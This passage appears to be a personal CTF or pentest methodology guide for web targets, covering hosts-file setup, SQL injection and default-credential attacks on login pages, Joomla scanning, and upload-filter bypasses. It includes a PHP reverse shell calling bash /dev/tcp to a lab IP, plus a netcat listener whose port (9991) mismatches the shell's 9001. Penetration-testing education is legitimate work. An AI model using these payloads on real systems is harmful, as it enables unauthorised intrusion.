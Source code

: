 If it resolves into a domain name, say for example: `http://sowon.mold`, it will have to be added to our `/etc/hosts` file.

To do so, we execute the following:
```bash
$ sudo echo '10.13.37.10 sowon.mold' >> /etc/hosts
```
Once in the webpage, check all pages and look for webpages that are of interest: a login page, a file submission page, some known web-building block (wordpress, joomla, Spring boot and actuators...)

### Login Page
The first step is to look for credentials in source code and maybe try to use an `SQL injection` by trying the payload `‘ or 1=1 — -`.Otherwise use `burp` to bruteforce for default credentials.

If the website is based on a known ticket management system, a content management system or similar, look online for possible default credentials and try them, or for possible past vulnerable versions.

: Examples of default credentials are: admin/admin, user/password, root/password etc...

### Known CMS (Content Management System)
The first thing to do is to search online for known vuulnerabilities and exploits. To do that we can search for `name_of_CMS used_version CVE exploit`.

#### Joomla CMS
When a Joomla CMS based website is encountered, `joomscan` is a very useful tool that can help us get a lot of information, including credentials that may be used later for privilege escalation.

### File upload page
When a webpage allows file upload, an attacker can upload a file containing malicious code and run it.

Some of these webpages are protected by black-listing some file extensions, but that can easily be bypassed. Some techniques include doubling extensions `file.png.php` or adding null-bytes `file.php%00.png`

When we can upload files, always think of reverse shell php files.

You can use ready-to-use ones like the one found here: <https://pentestmonkey.net/tools/web-shells/php-reverse-shell>

#### php code for reverse shell
An example of php code that can be injected to retrieve a reverse shell on port 9001 is:
```php
<?php
system('bash -c "bash -i >& /dev/tcp/10.13.37.10/9001 0>&1"');
php>
```

N.B.: make sure you have run the following command beforehand, to have an active listener on your machine for any incoming connections:
```bash
$ nc -nvlp 9991
```
#### Zip file upload
In some cases, the security measure in place is a white-listing of certain files. One example that I encountered is a webpage that asks specifically for a pdf file in a zip file. In this case, I used symlinks.
